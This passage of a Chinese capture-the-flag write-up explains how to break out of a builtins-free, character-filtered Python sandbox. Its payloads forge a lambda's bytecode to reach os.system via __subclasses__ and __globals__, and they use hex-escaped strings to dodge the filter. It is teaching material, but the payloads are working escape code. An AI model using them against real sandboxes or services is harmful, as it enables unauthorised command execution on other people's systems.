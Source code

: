 输出如下：

```plaintext
code:b'\x97\x00\x02\x00d\x01j\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x01\x00\x00\x00\x00\x00\x00\x00\x00d\x02\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x03\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x03\x00\x00\x00\x00\x00\x00\x00\x00j\x04\x00\x00\x00\x00\x00\x00\x00\x00d\x04\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x05\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00S\x00'
nlocals:0
varnames:()
names:('__class__', '__mro__', '__subclasses__', '__init__', '__globals__')
consts:(None, '', 1, 142, 'system', 'cmd')
```

因此我们只需要构造一个函数，修改对应的属性即可。`lambda`提供了匿名函数的构造，可以使用`f:=lambda:()`将匿名函数赋值给f绕过`def`关键字的识别。

构造之后我们需要对f的`__code__`进行修改，`__code__`中提供了`replace`函数，通过传递参数可以返回更新后的code object,因此我们需要将这个返回的code object更新到f中。

我们使用python方法`__setattr__`来对`__code__`进行修改，它的作用相当于`setattr()`

根据上述思路初步构建的输入：

```python
payload = (
    f:=lambda:(),
    f.__setattr__(
        "__code__",f.__code__.replace(
            co_consts=(None, '', 1, 142, 'system', 'cmd'),
            co_code=b'\x97\x00\x02\x00d\x01j\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x01\x00\x00\x00\x00\x00\x00\x00\x00d\x02\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x03\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x03\x00\x00\x00\x00\x00\x00\x00\x00j\x04\x00\x00\x00\x00\x00\x00\x00\x00d\x04\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x05\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00S\x00',
            co_names=('__class__','__mro__','__subclasses__','__init__','__globals__')
        )
    ),
    f()
)
```

但是这里遇到了一个问题：写成这样后None可以被替换成0以减少o的个数，但依然有无法避免的o和s出现在`replace`函数的参数中，我们需要想办法将替换合并：

一个自然的想法是传入一个字典，因为字典的键可以是字符串，因此可以用编码绕过字符检查，但是`{}`也被禁止使用了，我们需要一个在nobuiltins环境下可以使用的字典。

实际上是可以做到的，`__dict__`为我们提供了内置字典，用于存储这个类(或者实例)的属性。用`__dict__`自带的函数update来存储内容即可。

最终构造如下：

```python
payload = (
    f := lambda:(),
    f.__dict__.update((
        ('c\x6f_c\x6fn\x73t\x73',(0, '', 1, 142, '\x73y\x73tem', 'cmd')),
        ('c\x6f_name\x73', ('__cla\x73\x73__', '__mr\x6f__', '__\x73\x75bcla\x73\x73e\x73__', '__init__', '__gl\x6fbal\x73__')),
        ('c\x6f_c\x6fde',b'\x97\x00\x02\x00d\x01j\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x01\x00\x00\x00\x00\x00\x00\x00\x00d\x02\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x03\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x03\x00\x00\x00\x00\x00\x00\x00\x00j\x04\x00\x00\x00\x00\x00\x00\x00\x00d\x04\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x05\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00S\x00')
    )),
    f.__setattr__('__c\x6fde__', f.__code__.replace(**f.__dict__)),
    f()
)
```
